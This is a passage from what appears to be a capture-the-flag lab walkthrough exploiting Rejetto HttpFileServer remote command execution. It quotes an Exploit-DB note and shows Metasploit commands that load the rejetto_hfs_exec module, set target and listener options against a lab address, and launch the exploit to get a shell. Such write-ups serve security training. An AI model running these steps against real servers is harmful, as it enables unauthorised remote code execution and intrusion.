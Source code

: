```bash

will stop regex from parse macro , and macro will be executed and remote code injection happen.

## EDB Note: This vulnerability will run the payload multiple times simultaneously.
##   Make sure to take this into consideration when crafting your payload (and/or listener).
/usr/share/exploitdb/exploits/windows/remote/34668.txt (END)

```

- If we look at the CVE Section, we will see the CVE number attached to this exploit

---

## Use Metasploit to get an initial shell. What is the user flag?

### Open MSFConsole

```bash
msfconsole -q
```

### Search for Rejetto

```bash
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > 
```

### Select and insert the options for the exploit

- RHOSTS — The IP address of the victim at which we want to target
- RPORT —It is the port to which we want to listen, as discovered by nmap’s scan, and we can modify it to port 8080
- SRVPORT — We can change it to another port that will not affect us.
- LHOST — It’s our own machine, and telling it where to start and listening
- LPORT — Our personal listening port

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.169.46
RHOSTS => 10.10.169.46
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > set SRVPORT 9090
SRVPORT => 9090
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST localhost
LHOST => localhost
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

```
